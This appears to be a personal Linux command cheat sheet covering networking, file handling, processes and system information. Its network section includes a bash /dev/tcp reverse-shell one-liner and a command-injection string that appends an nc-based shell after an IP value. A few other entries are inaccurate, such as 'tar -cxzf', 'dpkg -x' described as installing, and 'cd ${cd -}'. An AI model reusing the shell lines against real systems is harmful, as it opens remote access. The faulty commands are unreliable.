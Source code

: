 # Network commands
* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get reverse shell with command execution
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

# File Manipulation
* Shuffles the lines of a file `-R`: random
```bash
sort -R playlist -o playlist
```

* Shuffles the fast way (ONLY WORKS with file that has run permission)
```bash
shuf FILE -o FILE
```

* Convert Chinese unreadable filename to correct filename (AWESOME)
```bash
7z x -scs903 ZIPFILE.zip
```

* Insert a newline at a specific line with sed `-i` `[--in-place]`
```bash
sed -i '$LINE_NUMi \n' foo.txt 
```

* Read all files in a directory line by line (USE THE NEXT ONE if needed)
```bash
ls | while read f; do while read -r line; do echo $line; done < $f ; done
```

* Copy an entire directory to another directory; `-r` = `-R`
```bash
cp -R source dest
```

* Get the size of a directory with `du`, disk usage, `-s` (summary) `-h` human readable
```bash
du -sh 
```

* Get the size of free space with `df`, disk free, `-h` human readable in `1024` power, `-H` in `1000` power
```bash
df -h 
```

* Get details of a directory `-h` human readable, `-a` show hidden, `-l` print details, `-s` sort by date
```bash
ls -halt
```

* Save the output of a command to a variable
```bash
cwd=$(pwd)
```

* Run a process in the background using `&` (`-c` : create a new archive; `-x` : extract; `-z` : gunzip; `-f` : Specify a file)
```bash
tar -cxzf file.tar.gz . &
```

* Check current running processes
```bash
jobs
```
```
ps
```

* Retrieve the first word from stdout using `awk` and `cut`
```bash
echo "hello world" | awk '{print $1;}'
```
```
echo "hello world" | cut -f 1 -d " "
```

* Use nohup to enable a process to continue running in the background when a user exits shell (DETACH FULLY)
```bash
nohup tar -czf file.tar.gz &
```

* Does the above without creating nohup.out 
```bash
nohup COMMAND >/dev/null 2>&1 &
```

* Copy a file content to system clipboard
```bash
xclip -sel clip < FILE
|
cat data.txt | xclip -selection c
```

* Information of process `ps`, `-e` or `-A`  list all process, `-f` do full format listing, include arguments with the command.
```bash
ps -eaf
```

* kill a process with `ps`
```bash
ps -eaf | grep vim
kill 1337
```
```
kill $(ps | grep play | awk '{print $1;}')
```

* kill a process with `pkill` (MUCH EASIER :D)
```bash
pkill vim
```

* kill a background process
```bash
jobs
kill %1
```

* Unzip a tarball
```bash
tar xf FILE.tar.xz
```

* Change directory to the output of a command
```bash
cd "$(dirname "$(which COMMAND)" )"
```

* Change directory to the previous directory!
```bash
cd ${cd -}
```
```
cd $OLDPWD
```

* Install .deb packages
```bash
dpkg -x file.deb
```

* Install / open `.rpm` files
```bash
sudo apt install rpm2cpio
rpm2cpio /path-to-file.rpm | cpio -i --make-directories
```

* `7z` is officially weird... the arguments it take have to be right afterwards...
```bash
7z x ZIP.zip -oEXTRACTED
```

* `grip`. Using grip to build markdown files locally. `-b`: opens up a browser tab. (Need to install a repo)
```bash
grip -b FILE.md
```

* Reading certain types of file line by line with `find`
```bash
for file in $(find . -type f -name "*.txt")
do
cat $file
done
```

## Redirection
`ls DIR > dirlist`
`>` Redirects output
`>>` Appends output to an existing file
`<` Takes in input
`>&` Redirects output of one file to another, e.g. `2>&1` redirects error to output (pre bash 4.0)
`&>>` does the above in post Bash 4.0 and apending it to a file
`&>` does the above but overwrites the target file

* Check architecture
```bash
dpkg --print-architecture
```

* Check OS version
```bash
lsb_release -a
```

* Getting the current directory name in a cool way, it can be VERY USEFUL!
```bash
basename $PWD
```

* List all the graphics card, `-nn` Show PCI vendor and device codes, `-v` verbose.
```bash
lspci -vnn | grep VGA -A 12
```
* Show CPU info
```bash
lscpu
```
* Show USB info, to determine the version of USB a flash drive is using, `-D` list devices.
```bash
lsusb
lsusb -D /dev/bus/usb/003/023
```

* Copy to a target directory and make the directory if it does not exist. `mkdir`, `-p` creates all directories
```
mkdir -p PATH && cp FILE PATH
```

* List of pip environments
```bash
pip freeze
```

* Install all pip environment recursively 
```bash
pip install -r requirements.txt
```

* List all the all current directories
```bash
ls -d */
echo */
ls -l | grep "^d"
ll | grep "^d"
for i in $(ls -d */); do echo ${i%%/}; done
```

* Shellshock with curl or wget
    
# root
* Login in as root with `sudo`, `-s` is short for shell, which makes a lot of sense
```bash
sudo -s
```
